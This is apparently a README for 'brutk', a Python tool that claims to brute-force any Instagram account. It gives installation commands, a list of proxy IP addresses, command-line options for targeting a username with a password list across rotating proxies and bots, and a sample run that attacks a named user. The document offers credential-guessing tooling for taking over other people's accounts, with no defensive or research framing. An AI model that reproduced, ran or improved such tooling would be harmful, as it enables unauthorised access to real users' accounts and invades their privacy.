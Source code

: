 # brutk 

This program will brute force any Instagram account 
# Requirements 

Python v3.9


proxy list 

# Installation 

git clone https://github.com/Khalidhusain786/brutk.git

cd brutk 


pip install pipenv  
 
 
pipenv --python 3.9 


pipenv install 


pipenv shell 



# Upload Proxy 
  
  3.238.111.248:80

206.189.59.192:8118

165.22.81.30:34100

176.248.120.70:3128

191.242.178.209:3128

180.92.194.235:80  


To upload a list of proxies a similar syntax must be followed.  




python instagram.py -px <path to proxy list>  


 

  
  # Stats 
 
 This gives an insight into the health of the proxies in the database.
 
 
 
 
 python instagram.py --stats 
 
 
# Help

usage:  instagram.py [-h] [-u USERNAME] [-p PASSLIST] [-px PROXYLIST] [--prune PRUNE] [--stats] [-nc] [-m MODE]

optional arguments:
  -h, --help            show this help message and exit 
  
  -u USERNAME, --username USERNAME
                        email or username 
                        
  -p PASSLIST, --passlist PASSLIST 
                        password list 
                        
  -px PROXYLIST, --proxylist PROXYLIST
                        proxy list 
                        
  --prune PRUNE         prune the database 
  
  --stats               get statistics of the proxies 
  
  -nc, --no-color       disable colors 
  
  -m MODE, --mode MODE  modes: 0 => 32 bots; 1 => 16 bots; 2 => 8 bots; 3 => 4 bots 
  
 
 
 
  # Prune 
 
 
 This allows the able to get rid of proxies with a score below a given score.

It is recommended that you run the --stats and prune the database of proxies 
 
 
 

 python instagram.py --prune 0.05

 
 
 
Pruning is not a requirement because the

the system will automatically learn which proxies perform poorly and stop using them.
 
 
 # Usage 
 
 python instagram.py -u <username> -p <passlist> -px (proxylist) -m (mode)

  
# Run 
 
Wordlist: gali.txt

[-] Username: galikachora
 

[-] Password: 580
 

[-] Complete: 65.51%

[-] Attempts: 350

[-] Browsers: 280

[-] Exists: True
  





